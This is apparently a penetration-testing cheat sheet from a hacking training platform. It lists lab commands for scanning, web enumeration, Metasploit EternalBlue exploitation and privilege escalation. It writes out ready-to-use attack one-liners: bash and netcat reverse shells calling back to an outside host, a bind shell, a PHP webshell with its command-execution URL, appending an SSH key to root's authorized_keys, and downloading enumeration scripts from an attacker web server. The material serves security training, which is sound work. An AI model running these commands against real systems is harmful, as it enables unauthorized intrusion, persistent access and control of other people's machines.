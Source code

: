   

**Command** | **Description**
|--|--|
**General** | 
`sudo openvpn user.ovpn` | Connect to VPN
`ifconfig`/`ip a` | Show our IP address
`netstat -rn` | Show networks accessible via the VPN
`ssh  user@10.10.10.10` | SSH to a remote server
`ftp 10.129.42.253` | FTP to a remote server
**tmux** | 
`tmux`  | Start tmux
`ctrl+b` | tmux: default prefix
`prefix c` | tmux: new window
`prefix 1` | tmux: switch to window (`1`)
`prefix shift+%` | tmux: split pane vertically
`prefix shift+"` | tmux: split pane horizontally
`prefix ->` | tmux: switch to the right pane
**Vim**  |
`vim file` | vim: open  `file`  with vim
`esc+i` | vim: enter  `insert`  mode
`esc` | vim: back to  `normal`  mode
`x` | vim: Cut character
`dw` | vim: Cut word
`dd` | vim: Cut full line
`yw` | vim: Copy word
`yy` | vim: Copy full line
`p` | vim: Paste
`:1` | vim: Go to line number 1.
`:w` | vim: Write the file 'i.e. save'
`:q` | vim: Quit
`:q!`  | vim: Quit without saving
`:wq` | vim: Write and quit

## Pentesting
**Command** | **Description**
|--|--|
**Service Scanning** |
`nmap 10.129.42.253` | Run nmap on an IP
`nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP
`locate scripts/citrix` | List various available nmap scripts
`nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP
`netcat 10.10.10.10 22` | Grab banner of an open port
`smbclient -N -L \\\\10.129.42.253` | List SMB Shares
`smbclient \\\\10.129.42.253\\users` | Connect to an SMB share
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP
`onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string
**Web Enumeration** |
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`

Run a directory scan on a website

`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`

Run a sub-domain scan on a website

`curl -IL https://www.inlanefreight.com`

Grab website banner

`whatweb 10.10.10.121`

List details about the webserver/certificates

`curl 10.10.10.121/robots.txt`

List potential directories in  `robots.txt`

`ctrl+U`

View page source (in Firefox)

**Public Exploits**

`searchsploit openssh 7.2`

Search for public exploits for a web application

`msfconsole`

MSF: Start the Metasploit Framework

`search exploit eternalblue`

MSF: Search for public exploits in MSF

`use exploit/windows/smb/ms17_010_psexec`

MSF: Start using an MSF module

`show options`

MSF: Show required options for an MSF module

`set RHOSTS 10.10.10.40`

MSF: Set a value for an MSF module option

`check`

MSF: Test if the target server is vulnerable

`exploit`

MSF: Run the exploit on the target server is vulnerable

**Using Shells**

`nc -lvnp 1234`

Start a  `nc`  listener on a local port

`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

Send a reverse shell from the remote server

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

Another command to send a reverse shell from the remote server

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

Start a bind shell on the remote server

`nc 10.10.10.1 1234`

Connect to a bind shell started on the remote server

`python -c 'import pty; pty.spawn("/bin/bash")'`

Upgrade shell TTY (1)

`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice

Upgrade shell TTY (2)

`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`

Create a webshell php file

`curl http://SERVER_IP:PORT/shell.php?cmd=id`

Execute a command on an uploaded webshell

**Privilege Escalation**

`./linpeas.sh`

Run  `linpeas`  script to enumerate remote server

`sudo -l`

List available  `sudo`  privileges

`sudo -u user /bin/echo Hello World!`

Run a command with  `sudo`

`sudo su -`

Switch to root user (if we have access to  `sudo su`)

`sudo su user -`

Switch to a user (if we have access to  `sudo su`)

`ssh-keygen -f key`

Create a new SSH key

`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`

Add the generated public key to the user

`ssh  root@10.10.10.10  -i key`

SSH to the server with the generated private key

**Transferring Files**

`python3 -m http.server 8000`

Start a local webserver

`wget http://10.10.14.1:8000/linpeas.sh`

Download a file on the remote server from our local machine

`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

Download a file on the remote server from our local machine

`scp linenum.sh user@remotehost:/tmp/linenum.sh`

Transfer a file to the remote server with  `scp`  (requires SSH access)

`base64 shell -w 0`

Convert a file to  `base64`

`echo f0VMR...SNIO...InmDwU | base64 -d > shell`

Convert a file from  `base64`  back to its orig

`md5sum shell`

Check the file's  `md5sum`  to ensure it converted correctly
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTkyMzE2NTg1XX0=
-->